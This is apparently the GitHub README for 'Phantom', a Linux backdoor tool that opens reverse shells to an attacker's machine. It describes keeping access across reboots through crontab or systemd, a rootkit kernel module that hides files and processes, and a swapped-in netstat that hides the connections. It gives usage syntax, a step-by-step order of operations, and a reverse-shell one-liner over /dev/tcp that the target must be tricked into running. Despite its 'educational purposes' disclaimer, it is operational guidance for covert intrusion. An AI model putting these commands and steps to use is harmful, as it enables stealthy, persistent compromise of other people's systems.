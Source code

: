 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat. It only works on
Linux machines.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

```
phantom-init  [ip=][port1=][port2=]
```
* ip: the attacker's ip (e.g. ip=127.0.0.1)
* port1: the port that listens for connections to deliver the payload (e.g. port1=8888)
* port2: the port that listens for the backdoor shells after delivering the payload (e.g. port2=9999)

You have to somehow make the target execute this code, so that he connects to the port1:  
**bash -c 'bash &>/dev/tcp/ip/port1 0>&1 &'**  
ip and 1st-port are the ones specified above.

## Files

* phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

* payload: This is the file that gets executed when the target connects to the listening ncat port1. It does the following:
* If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
  backdoor shell to the port2.
* If the user connecting is root it creates a systemd service which executes a script, continuously trying to
  create a backdoor bash shell to your machine (port2). It also creates a systemd service which executes a script,
  hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
  creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
  and the systemd services themselves. It is also persistent through reboots because the second systemd service
  (the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote connections to the specified ip and port2.

* phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

## Order of execution

* Before delivering the payload:
  1.  Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
  1.  Execute phantom-firewall as root, so it can modify the firewall rules.
  2.  Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.  Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2.  Close the ncat listening process so all the connections get closed with it.
3.  Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
    This is needed if you want the target to be able to connect to you again, otherwise a nftables rule is gonna
    block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@gmail.com
